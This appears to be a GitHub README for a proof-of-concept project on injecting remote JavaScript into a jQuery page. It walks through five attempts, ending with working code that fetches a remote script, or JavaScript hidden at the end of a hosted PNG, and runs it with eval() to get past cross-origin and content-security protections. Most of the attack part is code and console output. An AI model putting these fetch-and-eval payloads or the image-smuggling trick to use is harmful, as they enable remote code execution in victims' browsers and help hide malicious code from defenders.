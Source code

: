 # xss-injection-test

This project is a prof-og-concept of dynamic Javascript libraries injection for different browsers.

The target page must hace JQuery libraries activated

## Target paget

We will use an empty HTML page to host our injection

```html
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
  <title>Host Site</title>
  <script src="https://code.jquery.com/jquery-3.6.0.js" integrity="sha256-H+K7U5CnXl1h5ywQfKtSj8PCmoN9aaq30gDh27Xc0jk="
    crossorigin="anonymous"></script>
  <script src="https://code.jquery.com/ui/1.13.1/jquery-ui.js"
    integrity="sha256-6XMVI0zB8cRzfZjqKcD01PBsAy3FlDASrlC8SxCpInY=" crossorigin="anonymous"></script>
  <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css"
    integrity="sha384-1BmE4kWBq78iYhFldvKuhfTAU6auU8tT94WrHftjDbrCEXSU1oBoqyl2QvZ6jIW3" crossorigin="anonymous">
  <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.min.js"
    integrity="sha384-QJHtvGhmr9XOIpI6YVutG+2QOK9T+ZnN4kzFN1RtK3zEFEIsxhlmWl5/YESvpZ13"
    crossorigin="anonymous"></script>
</head>

<body>
  <div class="container">
    <h1>Target page</h1>
    <h2>Simple page with jqeury and bootstrap activated</h2>
  </div>
</body>
</html>

## Code to inject
The goal is to inject the code of this file on the page:

```
https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js

```

# First try (Brave)

we execute in console:

```javascript
function inject() {
    var script = document.createElement("script");
    script.type = "text/javascript";
    script.src = "https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js";
    document.head.appendChild(script);
}
inject()
```

### Result:

```
VM304:6 Cross-Origin Read Blocking (CORB) blocked cross-origin response https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js with MIME type text/plain. See https://www.chromestatus.com/feature/5629709824032768 for more details.
```

## Second try. Add dinamically CSP

We execute in console

```javascript
function dynamicallyInsertCSP() {
        let metaElement = document.createElement("meta");
        metaElement.setAttribute("content", "default-src 'self' 'unsafe-inline' *.githubusercontent.com;")
        metaElement.setAttribute("http-equiv", "Content-Security-Policy");
        document.head.appendChild(metaElement);
};

dynamicallyInsertCSP();

function inject() {
    var script = document.createElement("script");
    script.type = "text/javascript";
    script.src = "https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js";
    document.head.appendChild(script);
}
inject()
```

And we check we have this tag at the HEAD:

```
<meta content="default-src 'self' 'unsafe-inline' *.githubusercontent.com;" http-equiv="Content-Security-Policy">
```

But when executing injection we get the same result

## Third try. Import as text, execute with eval(). Works!

The are a lot of restrictions about importing JavaScript code into current page. It seems that including some "Same-Origin" from the server would help us, but let's try another ways involving only client.

```javascript
$.ajax({
    url:'https://raw.githubusercontent.com/disier/xss-injection-test/main/inject.js?' + new Date().getTime(),
    success: function (data){
        eval(data);
    }
  });
```

in this case we get the console message:

```
owned
```

This method works event wiouth creating the META tag!

## Fourth try. Import as image, execute with eval(). Works!

The are a lot of restrictions about importing JavaScript code into current page. It seems that including some "Same-Origin" from the server would help us, but let's try another ways involving only client.

```javascript
$.ajax({
    url:'https://raw.githubusercontent.com/disier/xss-injection-test/main/favicon.ico?' + new Date().getTime(),
    success: function (data){
        eval(data);
    }
  });
```

javascript code is executed

## Fitht test. Javascript appened to a PNG image located in an image host. Works

In this case a piece of JsvsScript code is attached to a legit PNG file

```
    // Execute call to download external script
    $.ajax({
      url: "https://i.ibb.co/9ZtQ16B/icon.png?" + new Date().getTime(),
      success: function (data) {
        // extract the plain text from the end of the image
        let myscript = data.slice(22505);
        // Execute it
        eval(myscript);
      },
    });
```

